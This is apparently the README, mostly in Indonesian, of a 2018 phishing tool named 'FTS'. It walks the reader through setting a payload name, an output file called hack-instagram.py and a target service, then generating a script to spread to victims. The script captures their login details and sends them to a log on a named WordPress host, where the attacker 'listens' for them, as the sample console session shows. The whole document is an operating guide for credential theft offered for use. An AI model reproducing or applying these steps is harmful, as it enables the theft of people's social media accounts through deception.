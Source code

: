############################################
PROJECT TITTLE : FTS (FUCK THE SOCIAL)
CODENAME       : Python
COPYRIGHT      : (C) Copyright 2018 LOoLzeC Scurity
CODED BY       : DERAY
FACEBOOK       : Deray
INSTAGRAM      : @reyy05

TAG            : HACKING,PHISING,SOCIAL ENGINEERING ATTACK,SOCIAL MEDIA AND FUCKING YOU ALL SOSMED!!!
#                                          
###########################################

(step satu)

membuat payload
command contoh : SET PAYLOAD AkSIsrR.txt
deskripsi : payload ini penting untuk listening nanti jika target sudah memasukan data login nya di payload yang sudah kita buat,btw tool ini harus terhubung ke internet,not offline ya akmj!1!

(step dua)

memberi output(nama file payload nya)
command contoh : SET OUTPUT hack-instagram.py
deskripsi: perlu di ingat,jangan lupa namakan file nya dengan ekstensi py

(step tiga)

memberi nama query(akun apa yang ingin anda hack)
command contoh : SET QUERY INSTAGRAM
deskripsi: jika anda memasukan query instagram,atau tittle akun apa saja yang kalian mau,otomatis query ini akan masuk ke source payload kalian contoh outputnya di target [*] Login INSTAGRAM Lu Dulu Bos...
query INSTAGRAM itu adalah query yang sudah kalian buat dengan command SET QUERY

(step empat)

memberi tanggal dan tahun
contoh command : SET DATE 2018/08
deskripsi : nah ini juga penting buat listening nanti,ane kan redirect log nya hanya di satu host wordpress,jadi nanti listening nya di sini http://ailisgarcia.com/wp-content/uploads/2018/08/ AkSIsrR.txt
apakah sudah mengerti? 2018/08 dan AkSIsrR.txt itu adalah date dan log payload yang sudah kita input dengan command SET PAYLOAD AkSIsrR.txt dan SET DATE 2018/08

(step lima)

generate
command : generate
deskripsi: dan terjadilah disini pembuatan payload kalian buat untuk di eksekusi target nanti,tunggu sampe sukses.

(step terakhir)

sebarkan payload berekstensi hack-instagram.py ke target anda,dan biarkan dia mengeksekusinya dan memasukan log data login nya terlebih dahulu

sekarang tugas anda adalah mendengarkan sampai korban memasukan log data login mereka
command : listen

atau untuk contoh manual listening command:

fts> SET PAYLOAD AkSIsrR.txt
PAYLOAD => AkSIsrR.txt
fts> SET QUERY INSTAGRAM
QUERY => INSTAGRAM
fts> SET DATE 2018/08
DATE => 2018/08
fts> listen
[*] listening..."
[*] LISTENING TARGET......"
ditunggu saja sampai korban memasukan log nya ^^

bantuan command : help,?,show options


